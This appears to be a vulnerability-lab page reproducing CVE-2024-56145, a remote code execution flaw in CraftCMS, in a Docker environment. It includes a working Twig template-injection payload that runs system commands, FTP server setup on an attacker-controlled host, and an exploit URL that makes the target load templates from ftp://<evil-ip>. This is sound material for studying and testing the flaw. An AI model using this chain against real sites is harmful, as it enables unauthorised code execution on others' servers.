

CraftCMS register_argc_argv Leads to Remote Code Execution (CVE-2024-56145)¶
CraftCMS is a PHP-based content management system for building websites and applications.
CraftCMS version before 5.5.2 and 4.13.2 is vulnerable to remote code execution if the PHP setting register_argc_argv is enabled. When register_argc_argv is enabled, CraftCMS incorrectly reads configuration items from the HTTP request, allowing an attacker to control template files using the --templatesPath, which can lead to arbitrary code execution through template injection.
Reference:
- https://github.com/craftcms/cms/security/advisories/GHSA-2p6p-9rc9-62j9
- https://www.assetnote.io/resources/research/how-an-obscure-php-footgun-led-to-rce-in-craft-cms
Vulnerable Environment¶
Execute the following command to start a CraftCMS server 5.5.1.1:
docker-compose up -d
After the server is running, you can see the installation page at http://<your-ip>:8088/admin/install. Please follow the instructions to install CraftCMS, the default database address is db and the username and password are both root.

Vulnerability Reproduction¶
To reproduce the vulnerability, you need to prepare a craft index.twig file which contains the following content, then place it on any remote server:
{{ ['system', 'id'] | sort('call_user_func') | join('') }}
Then start a FTP server in the server where the index.twig file is located:
# install pyftpdlib
pip install pyftpdlib
# start a FTP server
python -m pyftpdlib -p 21212 -V
Then you can exploit the vulnerability by sending the following request:
http://<your-ip>:8088/?--templatesPath=ftp://<evil-ip>:21212/

As you can see, the id command is executed and the output is returned.